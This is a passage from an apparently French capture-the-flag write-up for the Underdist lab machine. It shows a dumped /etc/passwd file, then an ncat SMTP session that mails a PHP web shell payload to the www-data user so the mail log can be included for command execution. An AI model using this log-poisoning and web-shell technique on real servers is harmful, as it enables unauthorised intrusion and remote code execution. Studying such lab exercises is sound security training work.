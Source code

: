 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
dovecot:x:102:106:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:103:65534:Dovecot login user,,,:/nonexistent:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
debian-spamd:x:105:107::/var/lib/spamassassin:/bin/sh
underdist:x:1000:1000:underdist,,,:/home/underdist:/bin/bash
postfix:x:106:109::/var/spool/postfix:/bin/false
cuervo:x:1001:1001:,,,:/home/cuervo:/bin/bash
smmta:x:107:111:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:108:112:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
```

## You got mail

Le serveur web tournant certainement avec l'utilisateur `www-data`, je vais utiliser le port SMTP pour lui evoyer un email puis tenter de l'inclure :

```shellsession
$ ncat -v 192.168.56.87 25 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.87:25.
220 Underdist ESMTP Postfix (Debian/GNU)
HELO underdist
250 Underdist
MAIL FROM: zozo@hacker.com
250 2.1.0 Ok
RCPT TO: www-data
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
start<?php system($_GET["cmd"]); ?>end
.
250 2.0.0 Ok: queued as ED3309F
QUIT
221 2.0.0 Bye
```
